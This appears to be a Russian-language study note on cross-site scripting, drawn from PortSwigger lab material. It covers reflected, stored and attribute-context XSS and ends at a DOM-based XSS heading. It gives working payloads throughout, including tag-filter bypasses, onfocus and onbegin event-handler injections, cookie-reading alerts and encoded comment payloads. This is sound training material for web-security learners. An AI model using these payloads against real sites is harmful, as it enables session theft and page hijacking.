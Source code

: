 [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

[Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## XSS PoC
`alert(document.domain)` or `print()`

## Reflected XSS
Функция поиска, которая получает поисковый запрос от пользователя в параметре URL:
`https://insecure-website.com/search?term=gift`

`<p>You searched for: gift</p>`

Эксплуатация:
`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

### XSS между тегами HTML
Когда контекст XSS представляет собой текст между тегами HTML, необходимо ввести несколько новых тегов HTML, предназначенных для запуска выполнения JavaScript.

[Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

`<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

[Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

`<script> location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>`

[Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

`"><svg><animatetransform onbegin=alert(1)>`

### XSS в атрибутах тегов HTML
Когда контекст XSS находится в значении атрибута HTML-тега, иногда можно прервать значение атрибута, закрыть тег и ввести новый. Например:

`"><script>alert(document.domain)</script>`

Чаще всего в такой ситуации угловые скобки блокируются или кодируются, поэтому ваш ввод не может выйти за пределы тега, в котором он появляется. При условии, что вы можете прервать значение атрибута, вы можете ввести новый атрибут, который создает контекст, доступный для сценария, например, обработчик события. Например:

`" autofocus onfocus=alert(document.domain) x="`

Приведенная выше полезная нагрузка создает событие `onfocus`, которое будет выполнять JavaScript, когда элемент получает фокус, а также добавляет атрибут `autofocus`, чтобы попытаться вызвать событие `onfocus` автоматически без какого-либо взаимодействия с пользователем. Наконец, он добавляет `x="`, чтобы изящно исправить следующую разметку. 

Вы можете встретить сайты, которые кодируют угловые скобки, но при этом позволяют вводить атрибуты. Иногда такие инъекции возможны даже в тегах, которые обычно не вызывают автоматических событий, например, в каноническом теге. Это поведение можно использовать с помощью ключей доступа и взаимодействия с пользователем в Chrome. Ключи доступа позволяют создавать комбинации клавиш, которые ссылаются на определенный элемент. Атрибут `accesskey` позволяет определить букву, при нажатии которой в сочетании с другими клавишами (они различаются для разных платформ) будут происходить события. В следующем уроке вы сможете поэкспериментировать с ключами доступа и использовать канонический тег. 



## Stored XSS
Веб-сайт позволяет пользователям оставлять комментарии к записям в блоге, которые отображаются другим пользователям. Пользователи отправляют комментарии с помощью HTTP-запроса, как показано ниже: 
`POST /post/comment HTTP/1.1`
`Host: vulnerable-website.com`
`Content-Length: 100` 

`postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net`

После отправки этого комментария любой пользователь, который посетит эту запись в блоге, получит в ответе приложения следующее:
`<p>This post was extremely helpful.</p>`

`<script>/* Bad stuff here... */</script>`

Эксплуатация:
`comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`

`<p><script>/* Bad stuff here... */</script></p>`

### XSS в атрибутах тегов HTML
Иногда XSS-контекст заключается в атрибуте HTML-тега, который сам по себе может создавать контекст для сценариев. Здесь можно выполнить JavaScript без необходимости завершать значение атрибута. Например, если контекст XSS находится в атрибуте `href` тега якоря, вы можете использовать псевдопротокол `javascript` для выполнения сценария. Например:

`<a href="javascript:alert(document.domain)">`



## DOM-based XSS
